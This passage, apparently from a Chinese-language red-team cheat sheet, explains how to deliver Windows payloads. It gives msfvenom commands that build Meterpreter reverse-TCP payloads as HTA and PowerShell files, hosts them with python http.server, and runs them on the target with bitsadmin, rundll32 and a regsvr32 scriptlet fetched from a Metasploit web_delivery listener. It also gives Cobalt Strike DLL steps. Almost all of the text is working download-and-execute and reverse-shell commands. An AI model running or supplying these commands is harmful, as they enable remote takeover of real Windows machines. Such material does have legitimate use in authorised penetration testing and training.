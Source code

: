 **攻击机操作**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.106 lport=9999 -f hta-psh > 1.hta
python3 -m http.server
```

**靶机操作**

```bash
bitsadmin /transfer shell http://192.168.1.106/1.hta C:\windows\temp\1.hta
rundll32.exe url.dll,OpenURL 1.hta

cd :C:\windows\temp\
rundll32.exe url.dll,OpenURL 1.hta
```

### CobaltStrike生成dll

> Attack(攻击)->Package(生成后门)->Windows可执行程序(Stageless)->选择监听器、输出格式为Windows DLL。
>
> 然后通过上述某种方法传到靶机上并运行。CS收到会话。

## Regsvr32

> Regsvr32.exe是一个命令行应用程序，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，如Windows注册表中的dll和ActiveX控件。
>
> Regsvr32.exe安装在Windows XP和Windows后续版本的`%systemroot%\System32`文件夹中

### Metasploit Web Delivery

**攻击机操作**

```bash
msfconsole
msf > use exploit/multi/script/web_delivery
msf exploit (web_delivery)> set srvhost 192.168.1.106
msf exploit (web_delivery)> set target 3 #可以show targets，选择regsvr32对应的编号
msf exploit (web_delivery)> set payload windows/x64/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.106
msf exploit (web_delivery)> run –j
```

**靶机操作**

```bash
regsvr32 /s /n /u /i:http://192.168.78.117:8080/NE67gb2mbfQt.sct scrobj.dll #这条命令msf在执行run后会出现提示
```

## PowerShell

### Msfvenom生成Powershell脚本

**攻击机操作**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.106 lport=9999 -f psh-reflection -o 1.ps1

python3 -m http.server
```
